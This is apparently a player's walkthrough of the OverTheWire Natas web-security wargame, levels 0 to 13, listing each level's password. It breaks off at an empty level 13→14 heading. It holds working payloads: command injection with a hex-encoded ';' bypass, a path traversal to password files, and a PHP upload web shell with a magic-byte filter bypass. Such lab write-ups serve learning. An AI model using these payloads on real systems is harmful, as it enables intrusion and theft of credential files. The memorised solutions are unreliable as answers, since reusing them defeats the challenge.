 ## Natas Level 0
Inspect
![Alt text](image.png)

## 0 → Level 1
Inspect
```
h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7
```

## Level 1 → Level 2
http://natas2.natas.labs.overthewire.org/files/
 
Is accessible.
```
G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q
```

## Level 2 → Level 3
http://natas3.natas.labs.overthewire.org/s3cr3t/  
Is accessible.

```
natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm
```

## Level 3 → Level 4
I used burp to edit the referer
![Alt text](image-1.png)
```
Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD 
```

## Level 4 → Level 5
Change coockie value to 1
![Alt text](image-2.png)
```
fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR
```

## Level 5 → Level 6
The source indicated we are including a file
```php
include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>

```
So I added to the url path and found the secret there.
![Alt text](image-3.png)
```
jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr
```
## Level 6 → Level 7
```
Following the description in the comments.
?page=/etc/natas_webpass/natas8
```
```
a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB 
```

## Level 7 → Level 8
I just reversed this 
```php
$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
```
decode of `3d3d516343746d4d6d6c315669563362` is `==QcCtmMml1ViV3b`  
reverse: `b3ViV1lmMmtCcQ==`  
decode the reverse: `oubWYf2kBq`
```
Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd
```

## Level 8 → Level 9
I puted this in the search bar
```bash
k ;cat /etc/natas_webpass/natas10; echo
```
```
D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE
```

## Level 9 → Level 10
; is not allowed but the ascii value if ; is 3B so I wrote
```bash
k $(printf "\\x3B") cat /etc/natas_webpass/natas11 $(printf "\\x3B") echo
```
```
1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg
```

## Level 10 → Level 11
Data is loaded from cookies

```php
function loadData($def) {
    global $_COOKIE;
    .
    .
    .
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
    .
    .
    .
}

$data = loadData($defaultdata);
```
I needed to reverse the encryption. Initially, I had the color 0xffffff. After decoding the saved data of the cookie and changing it to 0x000000, I observed the difference.
```
for 0xffffff
0l;$$98-8=?#9*jvi 'ngl*+(!$#9lrnh(.*-(.n67
for 0x000000
0l;$$98-8=?#9*jvi 'ngl*+(!$#9lrnh~x|{~xn67
```
It's easy to notice that the changed characters were `~x|{~,` and the repeated key is also quite apparent.
```php 
function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}
```
Breaking the encryption was straightforward because of the property that if a ^ b = c, then a ^ c = b. You can access the Python script [here](./natas11/reverse.py) that I used to re-encrypt it, edit the cookie, and obtain the solution.

```
pass
YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG
```
## Level 11 → Level 12
In this challenge, I was tasked with uploading a file, as shown below:   
![Alt text](image-4.png)   
After uploading the file, the system provided me with a link to access the uploaded file. My objective was to write a PHP script to retrieve and display the contents of the password file, essentially achieving Remote Code Execution (RCE).

I used Burp to modify the file's content and turned it into a PHP script. The transformation looked like this:

I used burp to edit the file content to php script.

From this
![Alt text](image-5.png)
To this:
![Alt text](image-6.png)


```php
<?php
$fileContents = file_get_contents('/etc/natas_webpass/natas13');
if ($fileContents === false) {
    echo 'Failed to read the file.';
} else {
    echo $fileContents;
}
?>
```
```
pass
lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9
```

## Level 12 → Level 13
Same as above but now it prevents none image file by adding.

```php
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    }
```
According to the function documentation
```
exif_imagetype() reads the first bytes of an image and checks its signature.
```
So I just left the first byte to be an image magic.

```
pass
qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP
```

## Level 13 → Level 14
